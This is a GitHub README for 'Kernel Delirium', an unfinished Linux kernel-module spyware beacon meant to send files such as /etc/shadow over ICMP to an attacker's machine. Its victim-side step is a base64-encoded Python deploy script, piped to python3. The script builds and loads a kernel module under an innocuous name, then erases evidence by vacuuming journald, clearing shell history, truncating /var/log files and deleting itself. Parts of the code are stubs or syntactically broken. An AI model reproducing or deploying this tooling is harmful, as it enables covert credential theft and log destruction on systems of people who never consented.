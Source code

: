 # Kernel Delirium :smoking: :penguin: (Not working yet, still requires development)

## What is it about

My idea was to create a kernel module for linux machine which is basically a beacon to spy on machine using ICMP protocoll which is usually less suspicious then tcp/udp f.ex, so even some firewalls don't mind. Additionally inexperienced System admin is not gonna try to look it up in kernel modules. Maybe in future to hide it better, I'll include the module in the system one.

## How to use?

To use this software you should install a desktop app and run deploy_and_clean.py (I recommend to assemble file with base64) on the victim machine cause that's more time efficient.

### Victim machine :syringe: :computer:

```bash
echo "aW1wb3J0IG9zCmltcG9ydCBhcmdwYXJzZQoKI21vZHVsZV9uYW1lIGlzIG5lZWRlZCB0byBoaWRl
IHRoZSBleHBsb2l0IHVuZGVyIHRoZSBuYW1lIHdoaWNoIGlzIG5vdCBzdXNwaWNpb3VzCmRlZiBl
eHBsb2l0X2dlbihleHRlcm5hbF9pcCwgZXh0ZXJuYWxfcG9ydCwgbW9kdWxlX25hbWUgPSAiZXRo
ZXJuZXQuYyIsIGZpbGVzID0gW10sIHVwZGF0ZV9wZXJpb2Q9MSk6CiAgICBNT0RVTEVfQ09ERT0i
IiIiIiIKICAgIHByaW50KGV4dGVybmFsX2lwLCBleHRlcm5hbF9wb3J0LCBtb2R1bGVfbmFtZSwg
dXBkYXRlX3BlcmlvZCkKICAgIHByaW50KGZpbGVzWzBdKQogICAgcHJpbnQoZmlsZXNbMV0pCgpk
ZWYgbG9hZF9tb2R1bGUobW9kdWxlTmFtZSk6CiAgICBNQUtFRklMRT1mIiIiQ09ORklHX01PRFVM
RV9TSUc9bgpvYmotbSArPSB7bW9kdWxlTmFtZX0KCmFsbDoKCXN1ZG8gYXB0LWdldCBpbnN0YWxs
IC0tcmVpbnN0YWxsIC15IGxpbnV4LWhlYWRlcnMtJCh1bmFtZSAtcikKCW1ha2UgLUMgL2xpYi9t
b2R1bGVzLyQoc2hlbGwgdW5hbWUgLXIpL2J1aWxkIE09JChQV0QpIG1vZHVsZXMKCXN1ZG8gaW5z
bW9kIGR2dC1kcml2ZXIua28KCmNsZWFuOgoJbWFrZSAtQyAvbGliL21vZHVsZXMvJChzaGVsbCB1
bmFtZSAtcikvYnVpbGQgTT0kKFBXRCkgY2xlYW4KCXJtIC1yZiAqLmMgKi5vICoua28gKi5tb2Qg
Ki5tb2QuYyIiIgoKICAgIHdpdGggb3BlbigiTWFrZWZpbGVfdHN0IiwgInciKSBhcyBmOgogICAg
ICAgIGYud3JpdGUoTUFLRUZJTEUpCiAgICAjb3Muc3lzdGVtKCIgbWFrZSIpCgoKZGVmIGNsZWFu
dXAoKToKICAgIG9zLnN5c3RlbSgiIG1ha2UgY2xlYW4iKQogICAgb3Muc3lzdGVtKCIgam91cm5h
bGN0bCAtLXZhY3V1bS10aW1lPTEwZCIpCiAgICBvcy5zeXN0ZW0oIiBoaXN0b3J5IC1jIikKICAg
IGZvciBmaWxlIGluIG9zLmxpc3RkaXIoIi92YXIvbG9nIik6CiAgICAgICAgd2l0aCBvcGVuOgog
ICAgICAgICAgICBmaWxlLnRydW5jYXRlKCkKICAgIG9zLnJlbW92ZShfX2ZpbGVfXykKCmRlZiBt
YWluKCk6CiAgICBwYXJzZXIgPSBhcmdwYXJzZS5Bcmd1bWVudFBhcnNlcihkZXNjcmlwdGlvbiA9
ICJUaGlzIHNjcmlwdCBzaG91bGQgYmUgcmFuIGFzIHJvb3Qgb24gZXhwb2l0ZWQgbWFjaGluZSB0
byBjcmVhdGUgYW5kIGxvYWQgYSBzdWl0YWJsZSBmb3IgeW91ciB0YXNrcyBjIGtlcm5lbCBtb2R1
bGUgdG8gc3B5IG9uIHNwZWNpZmljIGZpbGVzIGFuZCBzdGF5IGhpZGRlbiIpCiAgICBwYXJzZXIu
YWRkX2FyZ3VtZW50KCItLWV4dGVybmFsX2lwIiwgdHlwZSA9IHN0ciwgaGVscCA9ICJQcm92aWRl
IGFuIGV4dGVybmFsIG1hY2hpbmUgSVAgQUREUkVTUyB0aGF0IHdpbGwgYmUgdXNlZCIpCiAgICBw
YXJzZXIuYWRkX2FyZ3VtZW50KCItLWV4dGVybmFsX3BvcnQiLCB0eXBlID0gc3RyLCBoZWxwID0g
IlByb3ZpZGUgYW4gZXh0ZXJuYWwgbWFjaGluZSBQT1JUIHRoYXQgd2lsbCBiZSB1c2VkIiwgZGVm
YXVsdD0iMjIiKQogICAgcGFyc2VyLmFkZF9hcmd1bWVudCgiLS1tb2R1bGVfbmFtZSIsIHR5cGUg
PSBzdHIsIGhlbHAgPSAiTmFtZSBvZiB0aGUgbW9kdWxlIGYuZXggZXRoZXJuZXRfbW9kdWxlLCBp
dCdzIGJldHRlciBub3QgdG8gaGF2ZSB2aXJ1cyBvciBleHBvaXQgbmFtZSBvYnZpb3VzbHkiKQog
ICAgcGFyc2VyLmFkZF9hcmd1bWVudCgiLS1maWxlcyIsIHR5cGUgPSBzdHIsIG5hcmdzPSIrIiwg
aGVscD0iSGVyZSBhIGxpc3Qgb2YgZmlsZXMgdG8gYmUgc2VudCBzaG91bGQgYmUgcHJvdmlkZWQg
Zi5leCAvZXRjL2hvc3RzIC9ldGMvc2hhZG93cyIsIGRlZmF1bHQ9Ii9ldGMvc2hhZG93cyIpCiAg
ICBwYXJzZXIuYWRkX2FyZ3VtZW50KCItLXVwZGF0ZV9wZXJpb2QiLCB0eXBlID0gc3RyLCBoZWxw
ID0gIlRoZSBpbnRlcnZhbCBvZiB0aW1lIGluIHdoaWNoIGluZm9ybWF0aW9uIHNob3VsZCBiZSBn
YXRoZXJlZCBhZ2FpbiBhbmQgc2VuZCAoaW4gaG91cnMpLiBZb3Ugc2hvdWxkIGtub3cgdGhhdCB0
byBhdm9pZCBzdXNwaWNpb25zLCB0aW1lIHBlcmlvZCBtYXkgZGlmZmVyIHVwIHRvIDExIG1pbiIs
IGRlZmF1bHQ9IjEiKQogICAgYXJncyA9IHBhcnNlci5wYXJzZV9hcmdzKCkKICAgIGV4cGxvaXRf
Z2VuKGFyZ3MuZXh0ZXJuYWxfaXAsIGFyZ3MuZXh0ZXJuYWxfcG9ydCwgYXJncy5tb2R1bGVfbmFt
ZSwgYXJncy5maWxlcywgYXJncy51cGRhdGVfcGVyaW9kKQogICAgbG9hZF9tb2R1bGUoYXJncy5t
b2R1bGVfbmFtZSkKICAgIGNsZWFudXAoKQogICAgcmV0dXJuIDA7CgppZiBfX25hbWVfXyA9PSAi
X19tYWluX18iOgogICAgbWFpbigpCg==" | base64 -d  >> deploy_and_clean.py && python3 deploy_and_clean.py`
```

### Your machine :man_technologist:
```bash
sudo apt-get install kernel-delirium (Not gonna work yet)
```

```bash
kernel-delirium
```

## Supported distros:
### Debian-based :white_check_mark:
### Arch-based :x:
### OpenSuse :x: